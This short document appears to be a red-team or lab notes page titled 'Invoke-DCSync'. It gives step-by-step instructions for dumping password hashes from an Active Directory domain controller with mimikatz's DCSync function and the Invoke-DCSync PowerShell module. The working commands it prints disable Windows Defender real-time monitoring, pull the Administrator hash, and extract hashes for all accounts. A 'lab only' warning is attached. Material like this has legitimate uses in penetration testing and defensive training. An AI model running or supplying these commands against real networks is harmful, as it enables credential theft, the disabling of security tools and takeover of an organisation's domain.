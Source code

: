 # Invoke-DCSync
Invoke-DCSync
Reference: https://adsecurity.org/?p=1729
Reference: https://silentbreaksecurity.com/invoke-dcsync-because-we-all-wanted-it/
Goal: retrieve password hashes from all user accounts on a domain controller using the mimikatz DCSync function

Warning：Only do this in a lab environment.

mimikatz implemented a tool called DCSync, this allows mimikatz to impersonate a Domain Controller and attempt to retrieve all password hashes from another domain controller.

You may need to disable Windows Defender

Open up PowerShell as an administrator and type

$ Set-MpPreference -DisableRealtimeMonitoring $true
Start mimikatz

$ lsadump::dcsync /domain:test.local /user:Administrator
Now you have the password hash from that user

This required that you have Administrator access, specifically the Get-Replication-Changes-All Common Name attribute

Can use the Invoke-DCSync module to extract all hashes.

Download from: https://gist.github.com/monoxgas/9d238accd969550136db

~~~
$ Import-Module ./Invoke-DCSync.ps1
$ Invoke-DCSync -PWDumpFormat
~~~
